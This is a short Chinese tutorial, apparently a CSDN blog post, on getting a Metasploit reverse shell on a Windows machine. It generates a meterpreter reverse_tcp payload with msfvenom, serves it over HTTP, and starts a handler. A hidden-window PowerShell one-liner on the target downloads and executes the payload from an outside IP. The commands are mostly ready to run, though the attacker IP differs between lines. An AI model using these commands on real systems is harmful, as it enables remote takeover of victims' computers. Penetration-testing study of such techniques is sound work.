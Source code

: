 


**cmd窗口下反弹MSF shell**



**VPS上的操作**



```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=114.128.90.138 lport=7788 -f psh-reflection >7788.ps1        #生成木马文件 7788.ps1       
python -m SimpleHTTPServer 80  #开启web服务       
#MSF监听      
use exploit/multi/handler      
set payload windows/x64/meterpreter/reverse_tcp      
set lhost 114.118.80.138      
set lport 7788      1
exploit -j
```




![](https://img-blog.csdnimg.cn/20190822155740654.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/2019082215580841.png)



![](https://img-blog.csdnimg.cn/2019082216002231.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**目标机的操作**



```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"  #后台运行       
或者       
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"
```




![](https://img-blog.csdnimg.cn/20190822160334141.png)



![](https://img-blog.csdnimg.cn/20190822160253187.png)



一键开启3389远程桌面

------------
